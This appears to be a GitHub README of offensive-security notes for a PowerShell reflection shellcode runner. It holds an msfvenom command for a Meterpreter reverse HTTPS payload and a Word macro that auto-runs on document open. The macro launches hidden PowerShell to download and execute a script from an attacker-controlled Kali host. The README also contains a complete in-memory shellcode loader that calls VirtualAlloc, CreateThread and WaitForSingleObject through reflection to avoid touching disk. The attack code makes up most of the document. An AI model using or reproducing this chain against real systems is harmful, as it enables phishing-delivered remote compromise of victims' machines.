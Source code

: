 # PowerShell-Reflection-Shellcode-Runner

Payload generation

  	msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f ps1
  
 our Microsoft Office 2016 version of Word is a 32-bit process, which means that PowerShell will also launch as a 32-bit process.

VBA code calling the PowerShell cradle that executes the shellcode runner

                    Sub MyMacro()
                      Dim str As String
                      str = "powershell (New-Object System.Net.WebClient).DownloadString('http://<kali ip>/run.ps1') | IEX"
                      Shell str, vbHide
                    End Sub
                  
                    Sub Document_Open()
                      MyMacro
                    End Sub
                  
                    Sub AutoOpen()
                      MyMacro
                    End Sub

we can also try and use .txt extension 

Complete PowerShell script for in-memory shellcode runner

		***<comment>Method wrapper to create a delegate type: accepts two arguments: the function arguments of the Win32 API given as an array and its return type. The first block creates the custom assembly and defines the module and type 
  			inside of it. The second block of code sets up the constructor, and the third sets up the invoke method. Finally, the constructor is invoked and the delegate type is returned to the caller.<comment>***

		function LookupFunc {
		
			Param ($moduleName, $functionName)
		
			$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
		    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
		      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
		    $tmp=@()
		    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
			return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
		}
		
		function getDelegateType {
		
			Param (
				[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
				[Parameter(Position = 1)] [Type] $delType = [Void]
			)
		
			$type = [AppDomain]::CurrentDomain.
		    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
		    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
		      DefineDynamicModule('InMemoryModule', $false).
		      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
		      [System.MulticastDelegate])
		
		  $type.
		    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
		      SetImplementationFlags('Runtime, Managed')
		
		  $type.
		    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
		      SetImplementationFlags('Runtime, Managed')
		
			return $type.CreateType()
		}

		***<comment>Resolving and calling VirtualAlloc through reflection<comment>***
    
		$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 
  				0x40)
		
		[Byte[]] $buf = generated shell code
		
		[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

  		***<comment>Resolving and calling CreateThread through reflection<comment>***
    
		$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) 	
  			([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

  		***<comment>Resolving and calling WaitForSingleObject through reflection<comment>***
    
		[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
  

  It executed three primary steps related to the Win32 APIs. It located the function, specified argument data types, and invoked the function.
  There are two primary ways to locate functions in unmanaged dynamic link libraries. Our original technique relied on the Add-Type and DllImport keywords (or the Declare keyword in VBA). However, Add-Type calls the csc compiler, which writes to disk. 
  We must avoid this if we want to operate completely in-memory.

  Alternatively, Here we used a technique known as dynamic lookup, which is commonly used by low-level languages like C. By taking this path, we hope to create the .NET assembly in memory instead of writing code and compiling it.

  To perform a dynamic lookup of function addresses, the operating system provides two special Win32 APIs called GetModuleHandle and GetProcAddress
  GetModuleHandle obtains a handle to the specified DLL, which is actually the memory address of the DLL. To find the address of a specific function, we'll pass the DLL handle and the function name to GetProcAddress, which will return the function 
  address. We can use these functions to locate any API, but we must invoke them without using Add-Type.

  Since we cannot create any new assemblies, we'll try to locate existing assemblies that we can reuse. It stands to reason that we could search the preloaded assemblies for the presence of GetModuleHandle and GetProcAddress.
  However, there is an issue that these methods are only meant to be used internally by the .NET code. This blocks us from calling them directly from PowerShell or C#.
  To solve this issue, we have to develop a way that allows us to call it indirectly.

  The first step is to obtain a reference to these functions. To do that, we must first obtain a reference to the System.dll assembly using the GetType method.This reference to the System.dll assembly will allow us to subsequently locate the 
  GetModuleHandle and GetProcAddress methods inside it.

  Using GetType to obtain a reference to the System.dll assembly at runtime is an example of the Reflection technique. This is a very powerful feature that allows us to dynamically obtain references to objects that are otherwise private or internal.

  
  
		
		  
